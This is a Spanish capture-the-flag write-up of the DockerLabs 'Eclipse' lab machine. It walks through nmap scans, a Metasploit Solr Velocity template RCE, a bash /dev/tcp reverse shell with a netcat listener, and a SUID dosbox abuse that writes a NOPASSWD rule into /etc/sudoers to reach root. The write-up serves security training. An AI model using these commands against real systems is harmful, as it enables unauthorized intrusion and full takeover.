

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `Apache Solr` `Searchsploit` `Metasploit` `RCE` `SUID` `Sudoers`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip eclipse.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh eclipse.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p80,8983 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-19 14:40 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Epic Battle
8983/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://172.17.0.2:8983/solr/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.89 seconds
```

Identificamos los puertos `80` y `8983` abiertos.

Accedemos al servicio web del puerto `80` y nos encontramos con la página por defecto de `Apache2`. 

Realizamos `fuzzing` de directorios, pero no logramos ver más que el archivo `index.html`.

Al acceder al servicio que corre en el puerto `8983`, nos encontramos con un dashboard de administración de `Apache Solr`.



Revisando el panel, identificamos que la versión en uso es la `8.3.0`.

Procedemos a utilizar `Searchsploit` para buscar alguna vulnerabilidad asociada a esta versión específica de `Solr`.

```Bash
searchsploit solr 8
```

Info:
```
--------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Solr - Remote Code Execution via Velocity Template (Metasploit)                                                           | multiple/remote/48338.rb
Apache Solr 8.2.0 - Remote Code Execution                                                                                        | java/webapps/47572.py
Solr 3.5.0 - Arbitrary Data Deletion                                                                                             | java/webapps/39418.txt
--------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Los resultados nos muestran una vulnerabilidad de `RCE` a través de Velocity Template que podemos explotar utilizando `Metasploit`.

## EXPLOTACIÓN

Iniciamos `Metasploit` para configurar y lanzar el exploit.

```Bash
msfconsole
```

Configuramos el módulo `solr_velocity_rce` con los parámetros necesarios apuntando a la IP `172.17.0.2` y a nuestra máquina atacante `172.17.0.1`.

```Bash
msf > use exploit/multi/http/solr_velocity_rce
msf > set RHOSTS 172.17.0.2
msf > set LHOST 172.17.0.1
msf > run
```

Info:
```
[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] 172.17.0.2:8983: Authentication not required
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 6.17.10+kali-amd64
[*] Found core(s): 0xDojo
[+] Found Velocity Response Writer in use by core '0xDojo'
[!] params.resource.loader.enabled for core '0xDojo' is set to false.
[*] Targeting core '0xDojo'
[*] params.resource.loader.enabled is false for '0xDojo', trying to update it...
[+] params.resource.loader.enabled is true for core '0xDojo'
[*] Using URL: http://172.17.0.1:8080/F9sRLLZnVIrD3Qu/
[*] Sending stage (58073 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:49414) at 2026-02-19 14:48:31 +0100
[*] Server stopped.

meterpreter > getuid
Server username: ninhack
meterpreter >
```

El exploit funciona correctamente y recibimos una sesión de `meterpreter` como el usuario `ninhack`.

Dado que la `shell` en meterpreter suele ser bastante inestable en estos casos, vamos a enviarnos una `reverse shell` a nuestra máquina atacante para trabajar de forma más cómoda.

Ponemos un `listener` en otra pestaña con `Netcat`.

```Bash
sudo nc -nlvp 4444 
```

Desde `meterpreter`, abrimos una `shell` de sistema y lanzamos la conexión inversa.

```Bash
shell
/bin/bash -i
bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
```

Info:
```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 42838
ninhack@c20b3aa63cd6:/opt/solr/server$
```

Recibimos la conexión y ya estamos operando en una `shell` estándar de `bash`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## ESCALADA DE PRIVILEGIOS

Comenzamos a buscar vectores de escalada enumerando los binarios con permisos `SUID` en el sistema.

```Bash
find / -perm -4000 -type f 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/dosbox
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Observamos que el binario `/usr/bin/dosbox` cuenta con permisos `SUID`. Podemos abusar de este emulador para montar el directorio raíz y escribir en archivos privilegiados del sistema.

Aprovechamos esto para añadir a nuestro usuario `ninhack` al archivo `/etc/sudoers` para que pueda ejecutar cualquier comando sin requerir contraseña.

```Bash
LFILE='/etc/sudoers'
dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL:ALL) NOPASSWD: ALL >c:$LFILE" -c exit
```

Tras ejecutar el comando, comprobamos nuestros permisos de `sudo`.

```Bash
sudo -l
```

```
User ninhack may run the following commands on c20b3aa63cd6:
    (ALL : ALL) NOPASSWD: ALL
```

Confirmamos que la inyección en el archivo sudoers ha sido exitosa.

Finalmente, nos convertimos en el usuario `root`.

```Bash
sudo su
```
```
root@c20b3aa63cd6:/opt/solr/server# whoami
root
root@c20b3aa63cd6:/opt/solr/server#
```

Ya somos root!